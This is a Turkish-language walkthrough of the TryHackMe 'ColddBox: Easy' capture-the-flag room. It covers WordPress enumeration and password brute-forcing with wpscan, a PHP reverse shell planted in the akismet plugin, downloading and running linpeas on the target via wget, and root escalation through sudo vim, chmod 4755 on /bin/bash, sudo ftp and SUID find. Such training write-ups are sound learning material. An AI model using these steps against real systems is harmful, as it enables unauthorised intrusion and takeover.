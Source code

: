 # TRYHACKME ColddBox : Easy WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/colddboxeasy adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 10.10.174.16 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/c1.png)

Tarama sonucunda 4512 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine girince websitesinin wordpress ile yapılmış olduğunu görüyoruz.


![Resim2](pics/c2.png)

Wordpress sitelerine saldırı yapmak için hazırlanmış wpscan aracı ile recon yapmaya başlıyoruz: 

```bash
wpscan --url http://10.10.174.16/ --enumerate 
```
--url hedefi belirtir 

--enumerate websitesi hakkında olabildiğince bilgi edinmemizi sağlar 

![Resim4](pics/c3.png)

![Resim4](pics/c4.png)

Tarama sonucunda wpscan aracı birkaç kullanıcı ismi buluyor . Bu kullanıcıların şifresini öğrenmek için brute force yapıyoruz: 

```bash
wpscan --url http://10.10.174.16/ -U users.txt -P rockyou.txt 
```
--url hedefi belirtir  

-U kullanıcı adlarının bulunduğu dosyayı belirtir

-P şifrelerin bulunduğu dosyayı belirtir

![Resim4](pics/c5.png)

Ve c0ldd kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile websitesine giriş yaptıktan sonra webshell yüklemek için akismet pluginini editleyerek içerisine https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php hazır webshell dosyasının kodlarını yazıyoruz (içerisindeki portu ve ip adresini kendi ipmiz ve kullanmak istediğimiz port ile değiştiriyoruz tabi) . akismet.php dosyasını güncelledikten sonra netcat aracı ile kullanmak istediğimiz portu dinlemeye alıyoruz:   


```bash
nc -lvnp 1337
```
-l dinlemeye geçer 

-v ekstra bilgi verir 

-n dns sorgusunu iptal eder direk ip ile çalışır 

-p port numarasını belirtir

![Resim5](pics/c6.png)

Ardından plugins sayfasında akismet pluginini activate edince içerdeyiz: 

![Resim5](pics/c7.png)

Yetki yükseltme adımını otomatikleştirmek için linux yetki yükseltme aracı olan linpeas i pentest makinemize yüklüyoruz: 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

-L curl aracına site yönlendirmelerini takip etmesini söyler 

daha sonra dosyayı gönderebilmek için python ile websrever açıyoruz: 

```bash
python3 -m http.server 7000
```

-m kullanılacak modül belirtir 

Hedefte dosyayı herkesin yazma yetkisi olan bir yere yükleyip çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash 
cd /dev/shm
```
```bash
wget http://_tryhackme_vpn_ip_adresimiz:7000/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```

![Resim5](pics/c8.png)

Tarama sonucunda c0ldd kullanıcısının şifresinin wp-config.php dosyasında yazılı olduğunu görüyoruz ve ardından ssh ile c0ldd kullanıcısı olarak sisteme giriş yapıyoruz:  

```bash 
ssh -p 4512 c0ldd@10.10.174.16
```
-p ssh portunu belirtir

ardından root yetkisi ile çalıştırabileceğimiz komutları öğrenmek için aşağıdaki komutu kullanıyoruz: 

```bash
sudo -l
```

-l yetkileri listeler

Çıktı sonucunda yetkilerimizi 3 farklı yol ile yükseltebileceğimizi görüyoruz. Vim ile yetki yükseltmek için https://gtfobins.github.io/gtfobins/vim/ sayfasına gidiyoruz  

![Resim5](pics/c12.png)

Ve aşağıdaki komut ile yetki yükseltebileceğimizi görüyoruz: 

```bash
sudo vim -c ':!/bin/sh'
```
-c vime çalıştırması gereken programı söyler

![Resim5](pics/c13.png)

chmod komutu ile yetki yükseltmek için ise aşağıdaki komutu kullanıyoruz: 

```bash
sudo chmod 4755 /bin/bash && /bin/bash -p
```
4 suid biti ayarlar yani program her zaman kendi sahibi adına çalışır 
7 dosya sahine read, write, execute yetkisi verir 
5 dosya grubuna read ve execute yetkisi verir 
5 herkese read ve execute yetkisi verir 
&& ve demektir ard arda birden fazla komutu tek satırda çalıştırmak için kullanılır 
-p bash güvenlik nedeniyle root shell i düşürür . Ama bu parametre ile suid varsa shell kalır  

![Resim5](pics/c14.png)

Ftp ile yetki yükseltmek için aşağıdaki komutları kullanıyoruz:

```bash
sudo ftp
```
```bash
!/bin/sh
```

bu sayede ftp üzerinden sh shell açmış oluyoruz. Başka bir yetki yükseltme yöntemi ise suid biti olan find komutu ile yetki yükseltmek . Bunu yapmak için öncelikle sistemdeki tüm suid bitine sahip dosyaları buluyoruz: 

```bash
find / -perm -u=s -type f 2>/dev/null
```
-perm dosyaların izinlerini kontrol eder 

-u=s user (sahip) için suid biti ayarlanmış mı kontrol eder 

-type f  dosya türü f(file) belirtir 

2>/dev/null kontrol etmeye yetkimiz olmayan dosyalar hata verdirecektir. Hata mesajlarını (2>) çöpe(/dev/null) atar 

ardından şu komut ile root oluyoruz:

```bash
find . -exec /bin/sh -p \; -quit
```

Ve artık root olunabilecek tüm yollarla root olmanın verdiği üstünlük hissi ile odayı bitiriyoruz. 
